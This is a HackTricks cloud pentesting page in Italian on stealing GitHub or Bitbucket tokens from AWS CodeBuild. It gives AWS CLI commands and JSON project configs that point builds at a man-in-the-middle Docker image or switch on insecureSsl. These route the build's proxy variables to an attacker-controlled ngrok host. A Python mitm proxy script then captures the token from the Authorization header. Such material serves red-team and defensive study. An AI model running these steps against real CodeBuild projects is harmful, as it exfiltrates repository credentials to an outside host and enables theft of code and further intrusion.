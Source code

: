 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recupera i token configurati di Github/Bitbucket

Prima di tutto, controlla se ci sono credenziali sorgente configurate che potresti leak:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Se scopri che l'autenticazione, ad esempio su Github, è impostata nell'account, puoi **esfiltrare** quell'**accesso** (**token GH o token OAuth**) facendo in modo che Codebuild **utilizzi un'immagine docker specifica** per eseguire la build del progetto.

A questo scopo, potresti **creare un nuovo progetto Codebuild** o modificare l'**ambiente** di uno esistente per impostare l'**immagine Docker**.

L'immagine Docker che potresti utilizzare è [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Questa è un'immagine Docker molto basilare che imposterà le **variabili d'ambiente `https_proxy`**, **`http_proxy`** e **`SSL_CERT_FILE`**. Questo ti permetterà di intercettare la maggior parte del traffico dell'host indicato in **`https_proxy`** e **`http_proxy`** e di fidarti del certificato SSL indicato in **`SSL_CERT_FILE`**.

1. **Crea e carica la tua immagine Docker MitM**
* Segui le istruzioni del repo per impostare il tuo indirizzo IP proxy e impostare il tuo certificato SSL e **costruire l'immagine docker**.
* **NON IMPOSTARE `http_proxy`** per non intercettare le richieste all'endpoint dei metadati.
* Potresti usare **`ngrok`** come `ngrok tcp 4444` per impostare il proxy sul tuo host.
* Una volta che hai costruito l'immagine Docker, **caricala su un repo pubblico** (Dockerhub, ECR...)
2. **Imposta l'ambiente**
* Crea un **nuovo progetto Codebuild** o **modifica** l'ambiente di uno esistente.
* Imposta il progetto per utilizzare l'**immagine Docker precedentemente generata**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Imposta il proxy MitM nel tuo host**

* Come indicato nel **repo Github**, potresti usare qualcosa come:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
La **versione di mitmproxy utilizzata era la 9.0.1**, è stato segnalato che con la versione 10 questo potrebbe non funzionare.
{% endhint %}

4. **Esegui la build e cattura le credenziali**

*   Puoi vedere il token nell'intestazione **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Questo potrebbe essere fatto anche dalla aws cli con qualcosa come

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

I progetti **Codebuild** hanno un'impostazione chiamata **`insecureSsl`** che è nascosta nel web e puoi cambiarla solo dall'API.\
Abilitando questo, consente a Codebuild di connettersi al repository **senza controllare il certificato** offerto dalla piattaforma.

* Prima devi enumerare la configurazione attuale con qualcosa come:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Poi, con le informazioni raccolte, puoi aggiornare le impostazioni del progetto **`insecureSsl`** a **`True`**. Di seguito è riportato un esempio del mio aggiornamento di un progetto, nota il **`insecureSsl=True`** alla fine (questo è l'unica cosa che devi cambiare dalla configurazione raccolta).
* Inoltre, aggiungi anche le variabili d'ambiente **http\_proxy** e **https\_proxy** che puntano al tuo tcp ngrok come: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Quindi, esegui l'esempio di base da [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) nella porta indicata dalle variabili proxy (http\_proxy e https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Infine, clicca su **Build the project**, le **credenziali** saranno **inviate in chiaro** (base64) alla porta mitm:

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### ~~Via protocollo HTTP~~

{% hint style="success" %}
**Questa vulnerabilità è stata corretta da AWS in qualche momento della settimana del 20 febbraio 2023 (penso venerdì). Quindi un attaccante non può più abusarne :)**
{% endhint %}

Un attaccante con **permessi elevati su un CodeBuild potrebbe esporre il token Github/Bitbucket** configurato o se i permessi sono stati configurati tramite OAuth, il **token OAuth temporaneo utilizzato per accedere al codice**.

* Un attaccante potrebbe aggiungere le variabili d'ambiente **http\_proxy** e **https\_proxy** al progetto CodeBuild puntando alla sua macchina (ad esempio `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Poi, cambiare l'URL del repository github per utilizzare HTTP invece di HTTPS, ad esempio: `http://github.com/carlospolop-forks/TestActions`
* Poi, eseguire l'esempio base da [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) nella porta indicata dalle variabili proxy (http\_proxy e https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Infine, clicca su **Build the project**, le **credenziali** saranno **inviate in chiaro** (base64) alla porta mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Ora un attaccante sarà in grado di utilizzare il token dalla sua macchina, elencare tutti i privilegi che ha e (ab)usare più facilmente rispetto all'utilizzo diretto del servizio CodeBuild.
{% endhint %}

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
